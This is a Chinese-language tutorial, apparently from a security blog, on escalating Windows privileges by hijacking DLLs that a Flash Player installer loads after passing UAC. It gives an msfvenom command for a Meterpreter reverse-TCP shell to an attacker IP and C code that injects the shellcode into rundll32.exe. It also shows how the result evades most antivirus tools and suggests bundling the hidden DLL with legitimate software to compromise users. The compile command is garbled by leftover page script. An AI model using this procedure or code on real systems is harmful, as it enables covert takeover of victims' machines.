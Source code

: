 # 借用UAC完成的提权思路分享

0x00 背景
=======

* * *

UAC(User Account Control，用户帐户控制)是微软为提高系统安全而在Windows Vista中引入的新技术，它要求用户在执行可能会影响计算机运行的操作或执行更改影响其他用户的设置的操作之前，提供权限或管理员‌密码。也就是说一旦用户允许启动的应用程序通过UAC验证，那么这个程序也就有了管理员权限。如果我们通过某种方式劫持了通过用户UAC验证的程序，那么相应的我们的程序也就实现了提权的过程。

0x01 提权过程概述
===========

* * *

首先我们找到目标程序，查找其动态加载的dll文件然后将其替换掉，插入我们包含shellcode的dll文件，这样用户在安装此文件的时候就会调用我们的dll文件，并执行我们的shellcode代码。同时为了防止程序崩掉导致我们的代码退出，采用注入的方式保证shellcode的稳定执行。在此过程中，如果目标程序请求UAC权限，对于用户来说这是一个正常的安装文件，一旦通过UAC验证，相应我们的shellcode也完成了提权过程。替换安装包dll文件这种行为太过于敏感，其实最后实现的方式是找到目标程序需要加载的，并且当前目录又不存在的需要联网下载的dll文件，我们只需要在该目录下放一个同名dll文件即可。

0x02 实验环境
=========

* * *

_Kali Debian7_

Kali集成Metasploit等漏洞利用工具，方便提取shellcode和反弹TCP连接。最好安装一个Mingw-w64用于编译c代码。

_windows7 x64_

主要的目标测试环境。

_Procmon.exe_

Procmon是微软出的一款强大的Windows监视工具，不但可以监视进程/线程，还可以监控到文件系统，注册表的变化等。

_install_flashplayer15x32_mssd_aaa_aih_

这里我们以flashplayer安装文件作为目标文件，版本为15x32_mssd_aaa_aih，可自行下载，或者从最后的打包附件中找到。

0x03 详细提权过程
===========

* * *

查找可劫持的dll文件
-----------

首先我们在win7系统下先打开procmon监控软件，清除一下日志信息，然后运行我们的目标文件install_flashplayer15x32_mssd_aaa_aih，运行过后会弹出UAC选项，需要用户确认授权。

![](http://drops.javaweb.org/uploads/images/98195250933deae6961c4786b46017f2961837c1.jpg)

这里我们点“是”，然后安装包开始安装并自删除，并从服务器下载所需的文件，这时候就可以关掉了，因为我们只需要看该软件包都加载了哪些dll文件。

看下Procmon.exe记录所有行为

![](http://drops.javaweb.org/uploads/images/b1e26dbdc9c05efbe99de7736e689f18bdb77d33.jpg)

信息量太大，我们需要过滤出有用的信息。

首先是只看我们目标进程的信息，添加过滤规则：

`Process Name is install_flashplayer15x32_mssd_aaa_aih`

然后是过滤掉加载系统的dll文件，只看安装包当前目录下加载的dll文件，我这里安装包存放在dllhijack文件夹下，添加过滤规则：

`Path contains dllhijack`

并且该加载dll不存在，需要联网从服务器下载，最后再添加一个过滤规则：

`Result is NAME NOT FOUND`

三个过滤规则如下所示：

![](http://drops.javaweb.org/uploads/images/0dcaafed06ff9a08758b79d05d1a22139248fafe.jpg)

经过三个规则过滤后，留下的信息就很明显了，如下图所示：

![](http://drops.javaweb.org/uploads/images/1ff14e18f661c0b7407ae8ba057eb9705cba88dc.jpg)

上边所列的dll文件都是会尝试加载，并且找不到，会联网进行下载的dll文件，因此，我们的目标就是劫持这些dll文件，也不需要替换，直接将我们的dll文件放在安装包同目录即可，这也是为什么选择这个安装程序测试的原因。如果选择其他安装包测试的，最好也是选择这种联网安装类型的，所有文件都从服务器拉取，如果安装程序没有对这些从服务器拉取的文件进行效验，就能够被劫持。

编写exploit
---------

找到劫持了dll文件后，我们进入Debian系统用msf生成shellcode，这里我们选择反弹tcp的shellcode，需要知道服务器ip地址和监听端口，这里也选择Debian系统作为服务器，ifconfig查看下ip，设置监听端口为9000，最后执行如下命令生成shellcode:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.127.133 LPORT=9000 -f c`

![](http://drops.javaweb.org/uploads/images/79ac5ae7745e593f32bddd02ecf942016e184a1c.jpg)

为了防止程序挂掉或者退出导致shellcode也跟着退出，采用注入的方式，将shellcode注入rundll32.exe进程，然后连接远程端口。服务器监听该端口，一旦有请求就建立会话连接，注入关键代码：

```
if (CreateProcess(0, "rundll32.exe", 0, 0, 0, CREATE_SUSPENDED | IDLE_PRIORITY_CLASS, 0, 0, &si, &pi)) {
    ctx.ContextFlags = CONTEXT_INTEGER | CONTEXT_CONTROL;
    GetThreadContext(pi.hThread, &ctx);    

    ep = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, SCSIZE, MEM_COMMIT, PAGE_EXECUTE_READWRITE);    

    WriteProcessMemory(pi.hProcess, (PVOID)ep, &code, SCSIZE, 0);    

    #ifdef _WIN64
            ctx.Rip = (DWORD64)ep;
    #else
            ctx.Eip = (DWORD)ep;
    #endif    

    SetThreadContext(pi.hThread, &ctx);    

    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
}

```

最后将程序编译，这里编译直接在Debian系统下用Mingw-w64编译，命令入下：

```
root@idhyt:[email protected]/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-cfhash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-cfemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */shared
root@idhyt:~/maldemo# file template.dll
template.dll: PE32 executable (DLL) (console) Intel 80386, for MS Windows

```

将编译好的template.dll拷贝到win7系统中备用。

debian系统设置服务器并监听9000端口，所有命令如下：

![](http://drops.javaweb.org/uploads/images/df5a3604c622c8d202f6007a0ba2e61c2c21e137.jpg)

提权
--

将编译的template.dll文件放在install_flashplayer15x32_mssd_aaa_aih目录下，从我们监控到的可劫持dll文件中选择一个，这里我选择dhcpcsv6.dll。将我们的dll文件改名为dhcpcsvc6.dll，其他dll文件可自行尝试。之后重新运行安装包，弹出UAC选项后点“是”。

之后我们在debian系统的服务端会看到我们已经监听到了这个端口，看下会话信息：

![](http://drops.javaweb.org/uploads/images/2393dd3440421c7abbef5d0f6ee243045f47b376.jpg)

查看下当前uid，然后执行getsystem命令权限：

![](http://drops.javaweb.org/uploads/images/3be8b27924e9772ee20119e854ff6eac53b5eb9a.jpg)

可以看到已经提权成功，然后进入shell查看下文件，运行个计算器什么的

![](http://drops.javaweb.org/uploads/images/7e6edb11159ae4a760ef73fff6252384915f97a3.jpg)

0x04 总结
=======

* * *

UAC很大程度上减少PC受到恶意软件侵害的机会，但是并不表明是不可被利用的。通过这种dll劫持方式，可以将dll文件设置为隐藏，并将正常的软件(如adobe flash player)打包给用户，用户基本是察觉不到的，一旦用户正常安装，机器就会被攻击者控制。一些病毒通过劫持lpk.dll等系统dll文件造成的病毒体执行，也是利用这种思路，但是替换系统文件这种敏感操作，基本逃不过杀软的监控了。

各杀软厂商对shellcode这种检测和防御也不够严格，直接从msf中提取的shellcode，没做任何变形和过杀软处理，然后virustotal网站上扫描结果如下：

![](http://drops.javaweb.org/uploads/images/4c4874d416e1f66fcb89042f509135d2c342ac4c.jpg)

可以看出总共用了56中杀毒软件扫描，报毒的只有16个，然后看下国内的杀软：

![](http://drops.javaweb.org/uploads/images/7e5e7774b722962fdb881c9e62d00aac1c0a6461.jpg)

国内杀软全都没有报毒，所以通过dll劫持提权还是有很大的使用空间。   代码和安装包上传百度网盘：链接:[http://pan.baidu.com/s/1ntAbfQD](http://pan.baidu.com/s/1ntAbfQD)密码: rmsq 解压码：ks123456